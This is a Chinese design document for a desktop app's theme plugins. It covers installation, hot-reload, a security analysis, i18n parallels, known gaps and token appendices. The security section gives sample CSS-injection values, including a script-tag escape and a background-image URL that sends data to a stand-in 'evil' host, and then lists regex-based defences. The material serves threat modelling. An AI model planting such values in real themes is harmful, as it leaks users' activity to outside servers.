写完 manifest 后、用第 19.2 节的对比度测试跑一遍——加载这个主题、`buildCurrentTheme`、查 `warnings`。有不达标的 token 调整色值、直到无警告。这步在开发时就做、不要等用户装了才发现对比度问题。

### 21.3 落地与验证

#### 21.3.1 放到发现路径

把 `plugin.json` 放进发现路径之一：

- 项目级：`<cwd>/.pi/desktop/plugins/my-theme/plugin.json`（只当前项目生效）。
- 用户级：`~/.pi/desktop/plugins/my-theme/plugin.json`（所有项目生效）。

放进去后加载器的 file watcher 会自动发现并挂载（如果 core 已启动）、或下次启动时加载。挂载后在管理 UI 的主题选择器里就能看到新主题。

#### 21.3.2 热重载验证

改 `plugin.json` 的某个 token 值、保存。加载器检测到改动、重新挂载、如果当前主题是这个则重合并、GUI 立刻变色。这验证热重载工作正常。如果没变色、按第 15.1 节排查路径查。

#### 21.3.3 切换与跟随系统验证

在主题选择器切到新主题、验证 GUI 全部变色（不只是部分元素——部分元素不变是硬编码颜色 bug）。切回 dark、再切 auto、验证 auto 跟随系统。如果新主题声明了 base、验证继承的 token 正确（没被覆盖的 key 用 base 的值）。

---

## 22 主题插件的安全考量

### 22.1 token 值的注入风险

#### 22.1.1 值是字符串、不是可执行代码

主题插件是纯声明式、没有代码模块，这意味着它不能直接执行任意代码——不像带 `main` 的插件要跑在 worker 沙箱里。主题插件唯一的"输出"是 token 值字符串，这些字符串被 pi.ui 组件库和自定义元素当作 CSS 值用（`style={{ color: theme["color.fg"] }}`）。从代码执行角度，token 值是数据、不是代码，React 的 style 属性把它们当字符串处理、不会 eval。所以主题插件本身不存在"恶意 token 值导致 RCE"的路径——这是纯声明式设计的安全红利。

#### 22.1.2 CSS 注入的面

但 token 值是 CSS 值字符串，存在 CSS 注入的面。一个恶意主题插件把 `color.bg` 设成 `"red; } </style><script>alert(1)</script>"` 这种值、试图逃逸 CSS 上下文。这能成功吗？取决于消费 token 的方式：

- **React inline style**（`style={{ color: theme["color.fg"] }}`）：React 把 style 对象的值当字符串塞进 `style="color: <value>"`，浏览器把它当 CSS 声明值解析。一个含 `;` 的值会被当成分隔符、后续部分当新声明——`"red; background: url(evil)"` 会注入一个 `background` 声明。但 React 会对值做一定转义、且 inline style 不支持 `</style>` 逃逸（inline style 不是 `<style>` 块）。所以 inline style 路径只能注入额外 CSS 声明、不能注入 HTML 或脚本。
- **CSS 自定义属性**（如果组件内部用了 `--color-bg`）：类似 inline style、只能注入额外声明。

所以 token 值注入的实际上限是"注入额外 CSS 声明"——比如把 `color.bg` 设成 `"white; background-image: url(http://evil/track?data=xxx)"`、把用户界面的背景图指向外部 URL、实现数据外泄（URL 里的 query string 携带数据）。这虽然不能执行脚本、但能泄漏信息（如"用户打开了某个界面"）和进行 SSRF（服务端收到请求）。

#### 22.1.3 防御措施

防御 token 值注入分两层：

- **值校验**：合并阶段（`buildCurrentTheme`，见 2.2.2）对 token 值做格式校验——颜色 token 必须匹配颜色正则、字号/间距/圆角必须匹配尺寸正则、阴影必须匹配 box-shadow 正则、字族按字族规则校验。不匹配的值记一条"token 值格式非法"警告、该 token 用 `THEME_TOKEN_DEFAULTS` 兜底、记诊断页，但不禁用主题（与对比度警告同性质，见 8.3）。这是"运行时校验语义"的一部分（第 8.2 节对比度校验同理）、把校验从对比度扩展到所有 token 的格式。各维度校验规则如下：

  - **颜色 token**（`color.*`，含 `border.color`）正则：`/^#([0-9a-f]{3}|[0-9a-f]{6}|[0-9a-f]{8})$/i` 或 `/^rgba?\(\s*\d{1,3}\s*,\s*\d{1,3}\s*,\s*\d{1,3}\s*(?:,\s*([01]|0?\.\d+)\s*)?\)$/i`。与第 19.1 节 `parseColor` 接受的格式一致（hex 3/6/8 位、`rgb()`、`rgba()`）。
  - **尺寸 token**（`font.size.*`、`spacing.*`、`radius.*`、`border.width.thin`）正则：`/^\d+(\.\d+)?(px|rem|em)$/`。
  - **阴影 token**（`shadow.*`）正则（box-shadow 多层、允许多个逗号分隔）：`/^\s*((none|inset)\s+)*[-+]?\d+(\.\d+)?(px|rem|em)?(\s+[-+]?\d+(\.\d+)?(px|rem|em)?)*(\s+(#[0-9a-f]{3,8}|rgba?\([^)]*\))\s*)?(,\s*[^,]+)*\s*$/i`——这是宽松匹配，校验"看起来像 box-shadow 声明"，不做完整 CSS 解析（完整解析成本高、收益低，记 24 节演进项）。
  - **字族 token**（`font.family.*`）：不做正则校验，仅做"非空字符串 + 不含未配对引号/反斜杠"的轻量校验。字族值含逗号、引号、多字体回退（如 `"SF Mono", "JetBrains Mono", monospace`），正则难以精确覆盖且易误伤合法值，故当前只拒绝明显畸形（空串、未闭合引号），完整 CSS font-family 解析为演进项。

  这套校验是"运行时校验语义"的扩展——加载器只校验结构（key 在清单内、值是字符串），运行时合并后校验格式（值是不是合法颜色/尺寸/阴影/字族）。
- **net 权限**：即使 token 值注入了 `url(http://evil/...)`、实际发请求时走的是渲染层的网络栈。pi-desktop 的渲染层网络访问受 `permissions` 域名白名单约束（`DESIGN.md` 3.5 第 6 项）——主题插件如果没声明 `net:` 权限、它注入的 URL 请求会被拦截。但 CSS 里 `background-image: url(...)` 走的是浏览器原生网络栈、不经过 core 的 `http.fetch` 代理、白名单拦不住。这是已知限制、靠值校验兜底（拒绝含 `url(` 的颜色值）。

所以主题插件的安全模型是：纯声明式保证无代码执行、值格式校验防 CSS 注入、诊断页让用户知情。恶意主题插件能做的有限（最多注入额外 CSS 声明、且值要过格式校验）、不能执行代码、不能任意访问网络。这让主题插件的安全门槛比带代码模块的插件低、用户装第三方主题的风险可控。

### 22.2 主题插件不需要权限声明

#### 22.2.1 纯数据无权限

主题插件是纯声明式、没有代码模块、不调 `context.rpc`/`context.http`/`context.events`——它不主动做任何事、只是往主题槽塞数据。所以主题插件不需要在 manifest 里声明 `permissions`（`DESIGN.md` 3.2 的权限细分）。它唯一的"副作用"是影响 core 渲染（经 token 值）、而这个副作用受第 21.1 节的值校验约束。

这和带代码模块的插件不同——后者要声明 `net:` 域名白名单、`fs:` 文件访问、`content:sensitive` 事件订阅等权限。主题插件一行权限不用声明、加载器不校验它的 permissions 字段。这是"零运行时成本"在安全层面的体现：没有代码、没有权限需求、没有攻击面（除 token 值注入这个有限面）。

---

## 23 主题与 i18n 的平行关系

### 23.1 两个"影响 core 自身渲染的内容插件"

#### 23.1.1 同构的形态

主题插件和 i18n 插件在架构上是同构的——它们都是"纯声明式、影响 core 自身渲染、core 不内嵌对应常量"的内容插件。对照如下：

| 维度 | i18n 插件 | 主题插件 |
|---|---|---|
| 形态 | 纯声明式（无代码模块） | 纯声明式（无代码模块） |
| 挂的槽位 | 语言槽（languages） | 主题槽（themes） |
| 贡献内容 | key→文案映射 | token key→值映射 |
| 影响 core | core 渲染文案时不内嵌常量、从语言槽取 | core 渲染视觉时不内嵌常量、从主题槽取 |
| 冲突仲裁 | 同 locale 同 namespace key 级合并 | 整套同 id 二选一 + 声明 base 的补丁按 key 覆盖（见 1.3.3/17.1.1） |
| 当前选择 | currentLocale（electron-store） | currentThemeId（electron-store） |
| 不进 pi settings | 是（桌面端偏好） | 是（桌面端偏好） |
| 切换不重启 | 是（换 locale + 重渲染） | 是（换 id + 重合并 + 重渲染） |

这个对照不是巧合——两者是同一套设计模式在两个维度（文案/视觉）的应用。理解了其中一个、另一个的结构和机制可以类比迁移。这也是 `DESIGN.md` 把 i18n（4.2）和主题（4.11）都归为"影响 core 自身渲染的内容插件"、且都放在内置插件里同形态的原因。

#### 23.1.2 core 不内嵌文案常量 + 不内嵌视觉常量

两条纪律合起来、core 极薄到"既没有默认文案也没有默认配色"。这意味着一个"裸 core"（卸了所有 i18n 和主题插件）渲染出来的是一个无文字、无配色的空壳——所有文案从语言槽取、所有视觉从主题槽取。这种刻意残缺是 VSCode 式薄壳的核心纪律：core 只提供机制（槽位 + 加载器）和默认实现（内置 i18n/主题插件）、不霸占任何内容位。用户能整体替换语言、整体替换视觉、core 一行不改。

### 23.2 两者的交互

#### 23.2.1 主题选择器的文案走 i18n

主题插件的 `name` 字段可以是 i18n key（如 `"theme.dark"`）、由 i18n 插件提供文案。这意味着主题选择器里显示的主题名走 i18n——用户切了语言、主题名跟着翻。两个内容插件在这里交互：主题插件提供主题数据、i18n 插件提供主题名的文案。这个交互经 core 的 i18n 系统中转（`pi.i18n.t("theme.dark")`）、不是主题插件直接调 i18n 插件（主题插件没代码模块、调不了任何 API）。core 在渲染主题选择器时、拿主题贡献项的 `name` 字段、如果是 i18n key 就 `t()` 翻译、如果是裸字符串就直接显示。

#### 23.2.2 两套偏好独立存储

主题偏好（`currentThemeId`）和语言偏好（`currentLocale`）各自存 electron-store、独立切换。切语言不影响主题、切主题不影响语言。两者的存储路径（electron-store 的 key 名）分开、互不污染。这是"关注点分离"在偏好存储上的体现——两个维度各自管自己的状态。

---

## 24 演进项与已知缺口

### 24.1 当前缺口

#### 24.1.1 第三方主题不能跟随系统

第 7.3 节提到：第三方主题想"系统暗时用 X、系统亮时用 Y"当前做不到，因为 `auto` 的 base 硬编码成 `dark`/`light`。演进方向是让 `auto` 主题支持自定义 base 映射——manifest 声明 `{ "lightBase": "solarized-light", "darkBase": "solarized-dark" }`，合并时按系统配色取对应 base。这是扩展（新字段、旧主题不填用默认）、不破坏现有契约。

#### 24.1.2 桌面主题与底座终端主题不联动

桌面切暗、底座终端不会跟着切暗（两者独立存储、独立切换）。如果用户想让两者联动，需要 core 通过 RPC 命令设置底座的 `theme` 字段——但 RPC 31 命令里没有 `set_theme`（底座 settings 操作走支柱②配置文件、不是 RPC）。演进方向是底座补 `set_theme` RPC 命令、或桌面端走支柱②写底座 settings.json 的 theme 字段 + 重启子进程。这是"底座该补的能力"类缺口，记 `DESIGN.md` 6.1。

#### 24.1.3 token 暂不支持运行时主题覆盖

当前一个主题的 token 值在 manifest 里固定、运行时不能改。如果用户想"在 dark 基础上把字号调大"、不修改 dark 主题插件，当前要自己写一个继承 dark 的子主题覆盖 `font.size.*`。演进方向是支持"用户级 token 覆盖"——electron-store 存一个 `tokenOverrides: Record<string, string>`、合并时在最后一步覆盖。这是便利性特性、不是架构缺口。

### 24.2 不做的事

#### 24.2.1 不做主题市场

主题插件通过 `DESIGN.md` 3.9 的外部插件安装链路（npm/.pidesktop）分发，不做 pi-desktop 自己的"主题市场"。主题就是插件、走插件分发链路，不单独搞一套。这避免"主题"和"插件"在分发上变成两套概念、增加复杂度。

#### 24.2.2 不做主题编辑器

不在桌面端内建主题编辑器（可视化调色板）。主题是 JSON 数据、用任何编辑器改 `plugin.json` 即可。内建编辑器是"造工具"的诱惑、但使用场景低频、不值得投入。用户想调色就改 JSON、热重载立刻看到效果。

---

## 附录 A：完整 token 清单速查

```
颜色:
  color.bg            主背景
  color.fg            主前景
  color.surface       卡片/面板背景
  color.surface-fg    卡片前景
  color.primary       主色（链接/按钮）
  color.primary-fg    主色上的前景
  color.accent.success    成功状态色
  color.accent.warning    警告状态色
  color.accent.error      错误状态色
  color.accent.danger     危险状态色
  color.border        边框
  color.muted         次要文本

字号:
  font.size.base      基础字号（14px）
  font.size.sm        小字号（12px）
  font.size.lg        大字号（16px）

字族:
  font.family.mono    等宽（代码）
  font.family.sans    无衬线（正文）

间距:
  spacing.xs          8px
  spacing.sm          12px
  spacing.md          16px
  spacing.lg          24px
  spacing.xl          32px

圆角:
  radius.sm           4px
  radius.md           8px
  radius.lg           12px

边框:
  border.width.thin   1px
  border.color        = color.border（派生 token，derived/not settable，合并层自动复制，见 3.7）

阴影:
  shadow.sm           卡片轻微浮起
  shadow.md           卡片明显浮起
  shadow.lg           模态框浮起
```

## 附录 B：对比度校验颜色对

```
{ fg: color.fg,             bg: color.bg }            正文 on 主背景          ≥4.5:1
{ fg: color.surface-fg,     bg: color.surface }        卡片正文 on 卡片背景    ≥4.5:1
{ fg: color.muted,          bg: color.surface, largeText: true }  次要文本    ≥3:1
{ fg: color.primary-fg,     bg: color.primary }       主色上的文本           ≥4.5:1
{ fg: color.accent.success, bg: color.bg }            成功色 on 主背景       ≥3:1
{ fg: color.accent.warning, bg: color.bg }            警告色 on 主背景       ≥3:1
{ fg: color.accent.error,   bg: color.bg }            错误色 on 主背景       ≥3:1
{ fg: color.accent.danger,  bg: color.bg }            危险色 on 主背景       ≥3:1
```

### 附录 B.1 颜色对的解读与边界

上表每一行定义一组必须校验对比度的前景/背景颜色对。`required` 列是该对的最低对比度要求：正文（小字号）走 4.5:1、大字号或纯图标/标签色走 3:1。`largeText: true` 标记的是次要文本——`color.muted` 通常用于时间戳、辅助说明这类字号偏小的内容、严格说应按 4.5:1 校验，但因其语义是"辅助信息"、可读性要求略放宽到 3:1，这是务实取舍；若主题插件作者追求更严格的无障碍，可自行按 4.5:1 调整 `color.muted` 的值。

状态色（`color.accent.*`）配 `color.bg` 而非 `color.surface`，因为状态色最常出现在主背景上（如状态栏、通知条）。当状态色出现在卡片（`color.surface`）上时，由于 `color.surface` 通常和 `color.bg` 接近（暗色主题下都是深色、亮色主题下都是浅色），on `color.bg` 达标的色值一般在 on `color.surface` 上也达标，但不是必然——主题插件作者若把 `color.surface` 调得和 `color.bg` 差异较大，应自行验证状态色在两个底色上都达标。core 当前只校验表中所列的对、不校验衍生组合，这是为了把约束数量控制在可维护的范围内，代价是少数边缘场景靠作者自觉。

新增颜色对是扩展（core 往表里加行、旧主题照常工作），不删行、不改已有行的 `required` 阈值方向（4.5 不会降成 3、3 不会升成 4.5），保证主题插件的合规性不随 core 版本反复横跳。
